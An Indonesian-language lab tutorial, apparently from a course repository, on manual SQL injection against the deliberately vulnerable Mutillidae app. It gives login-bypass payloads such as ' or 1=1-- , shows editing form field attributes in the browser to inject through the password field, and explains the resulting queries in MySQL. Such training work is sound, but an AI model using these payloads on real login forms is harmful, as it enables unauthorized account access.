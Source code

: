 # Lesson 5: Manual SQL Injection with Firebug

## SQL Injection: Single Quote Test On Username Field

1. Buka Mutillidae pada firefox, lalu masuk ke halaman ```Login/Register```
![1](/lesson5/2.png)

2. Disitu kita akan melihat sebuah form login yang dapat diisi namun kita tidak mengetahui akun untuk autentikasinya. ketikkan ```'``` pada kolom "Name". Lalu klik "Login"
![1](/lesson5/3.png)

3. Perhatikan pesan error yang muncul dibagian atas. pesan itu menandakan bahwa fitur autentikasi tersebut rentan terhadap serangan SQL Injection
![1](/lesson5/x.png)

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)

1. Masukkan string yang akan mengacaukan query seperti ```' or 1=1-- ```
**Penting: tambahkan spasi setelah sintaks comment jadi seperti ini ```'-- '```**
![1](/lesson5/6.png)

2. Maka kita akan berhasil login dengan akun admin. bagaimana bisa? string ```' or 1=1-- ``` akan menjadikan eksekusi query yang dasarnya adalah
```
select * from accounts where username='' and password=''
```
menjadi
```
select * from accounts where username='' or 1=1-- ' and password=''
```
query tersebut menghasilkan nilai true, dan mengambil user yang berada di paling atas pada tabel "accounts"

## SQL Injection: Single Quote Test On Password Field

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah ```type``` input dari ```password``` menjadi ```text```. lalu lakukanlah cek kerentanan dengan memasukkan string ```'``` lalu klik login untuk mengeksekusi querynya.
![1](/lesson5/8.png)

2. Setelah itu akan muncul error yang menandakan bahwa fitur autentikasi ini rentan terhadap serangan SQL Injection.
![1](/lesson5/9.png)

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah value pada ```type``` menjadi ```text```, ```maxlength``` menjadi ```50``` dan ```size``` menjadi ```50```. setelah itu masukkan string ```' or (1=1 and username='samurai')-- ```
**Jangan lupa untuk menambahkan spasi setelah "-- "**
![1](/lesson5/11.png)

2. Setelah itu kita akan masuk dengan nama user "samurai" (sesuai dengan yang diinputkan tadi)
![1](/lesson5/12.png)

## Database Practice

1. masuk ke server mutillidae dan buka mysql dengan user root. dengan cara mengetikkan perintah
```
mysql -u root
```
![1](/lesson5/13.png)

2. tampilkan seluruh database dengan mengetikkan
```
show databases;
```
lalu pilih database yang digunakan oleh muttilidae (dalam kasus ini menggunakan database dengan nama owasp10) dengan mengetikkan
```
use owasp10;
```
![1](/lesson5/15.png)

3. Tampilkan seluruh tabel pada database dengan cara mengetikkan
```
show tables;
```
![1](/lesson5/16.png)

4. Tampilkan deskripsi dari tabel "accounts" dengan cara mengetikkan
```
desc accounts;
```
![1](/lesson5/17.png)

5. Tampilkan seluruh data pada tabel "accounts" dengan cara mengetikkan
```
select * from accounts;
```
![1](/lesson5/18.png)

6. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = '' dan password = '' dengan cara mengetikkan
```
select * from accounts where username='' and password='';
```
![1](/lesson5/19.png)

7. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'samurai' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='samurai';
```
![1](/lesson5/20.png)

8. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'wrongpassword' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='wrongpassword';
```
![1](/lesson5/21.png)

9. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai'. dengan memberikan *end syntax* ```;``` *comment* ```-- ``` setelah ```username='samurai'```sehingga menjadi seperti ini:
```
select * from accounts where username='samurai';-- and password='wrongpassword';
```
![1](/lesson5/22.png)
dengan ini syntax setelah ```username='samurai'``` tidak akan dibaca/dieksekusi.

10. Coba lakukan query seperti pada login form dengan mengetikkan ```'``` didalam username untuk merusak query.
```
> select * from accounts where username=''' and password='';
> ;
```
![1](/lesson5/24.png)

11. lakukan query agar query tersebut selalu mengembalikan nilai ```True``` dengan cara menambahkan ```'or 1=1;-- ``` didalam string username
```
select * from accounts where username=''or 1=1;-- ' and password='';
```
![1](/lesson5/25.png)

12. lakukan query sql injection untuk mencari user dengan username "samurai" dengan cara
```
select * from accounts where username='samurai' and password='' or (1=1 and username='samurai');--';
```
![1](/lesson5/27.png)
